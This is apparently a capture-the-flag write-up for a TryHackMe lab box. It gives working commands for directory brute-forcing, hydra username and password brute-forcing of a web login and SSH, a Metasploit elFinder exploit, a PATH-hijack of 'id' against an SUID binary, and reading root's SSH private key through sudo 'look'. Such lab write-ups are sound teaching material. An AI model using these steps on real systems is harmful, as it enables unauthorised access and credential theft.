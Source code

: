 simple nmap scan to discover open ports

![nmap](img/nmap.png "nmap")

now using feroxbuster to find hidden folders

```
feroxbuster -u http://lookup.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![ferox](img/ferox.png "ferox")

nothing interesting now checking the website

![login](img/login.png "login")

trying some default credentials like `admin:admin` and we got found something, there is logic flaw in logging form

![wp](img/wp.png "wp")

we get `wrong password` error if logging as `admin`

![wup](img/wup.png "wup")

we got `wrong username or password` error when logging as `test`
 
we know that user is admin for sure because of error saying wrong password when logging as `admin:admin`  but saying wrong username or password as logging as `test:test`

i couldnt break into admin account so i tried finding other accounts using hydra

```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p test123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong username or password" 
```

![userenum](img/userenum.png "userenum")

found admin and `jose`

now trying rockyou on jose

```
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong password"
```

![passwordcrack](img/passwordcrack.png "passwordcrack")

after logging we are sent into `files.lookup.thm`

![elfinder](img/elfinder.png "elfinder")

now we know that server uses `elfinder 2.1.47`

checking for exploits in searchsploit

![exploitdb](img/exploitdb.png "exploitdb")

there are some exploits to use 

also checking metasploit 

![msfconsole](img/msfconsole.png "msfconsole")

we are going to use 4

creating the payload

![shell1](img/shell1.png "shell1")

and we got shell as `www-data`

copying linpeas into machine and we found odd SUID binary

![linpeas](img/linpeas.png "linpeas")

this will be our lateral movement factor

after running this script we see that it will write the content of the `.password` file depending on the current user id command and  `/home` path

![pwmscript](img/pwmscript.png "pwmscript")

we could create our own version of id command, the script would execute our malicious id command where would be fake id info, we know that .password file is in `/home/think` so we will replicate id command for user think 

```
$ mkdir /tmp/id
$ echo '#!/bin/bash' > id
$ echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >>id
$ chmod +x id
```

now our id script simulates output of id command as user think

now we also need to change path so that our script will be looked up first 

```
export PATH=/tmp/id:$PATH
```

now we can run a script /usr/sbin/pwm and we got some kind of list of passwords 

![fakeid](img/fakeid.png "fakeid")

![passwdlist](img/passwdlist.png "passwdlist")


using hydra once again to brute force ssh login as think

```
hydra -l "think" -P CTF/THM/lookup/pass.txt ssh://10.10.X.X
```

![thinkcreds](img/thinkcreds.png "thinkcreds")

now we can ssh as think and grab user flag

we check `sudo -l`

now we know that we can run `sudo /usr/bin/look '' /root/.ssh/id_rsa` to find ssh key

![rootkey](img/rootkey.png "rootkey")

now we can ssh into root and grab root flag

```
$ chmod 600 key
$ ssh -i key root@10.10.X.X
```

![root](img/root.png "root")
